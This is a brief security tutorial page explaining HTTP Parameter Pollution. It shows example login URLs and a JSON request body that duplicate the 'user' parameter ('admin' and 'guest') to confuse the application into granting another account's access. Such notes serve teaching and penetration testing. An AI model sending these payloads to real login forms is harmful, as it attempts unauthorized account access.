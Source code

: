 # HTTP Parameter Pollution

Manipulate or pollute HTTP requests by injecting multiple parameters with the same name into a single request, potentially allowing to bypass security controls, altering the behavior of the application, or accessing unauthorized data.

We can find a typical example of this vulnerability as follows:

* We send a petition to a login form

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://example.com/login?user=guest&pass=password
```
{% endcode %}

***

* We can create confusion by duplicating the user parameter, which could allow us to get information or even access another account

{% code overflow="wrap" lineNumbers="true" %}
```bash
https://example.com/login?user=admin&user=guest&pass=password
```
{% endcode %}

***

* We can also do this by modifying directly the request parameters

{% code title="Example request" overflow="wrap" lineNumbers="true" %}
```json
{
    "data": {
        "user": "admin",
        "user": "guest",
        "pass": "password"    
    }
}
```
{% endcode %}
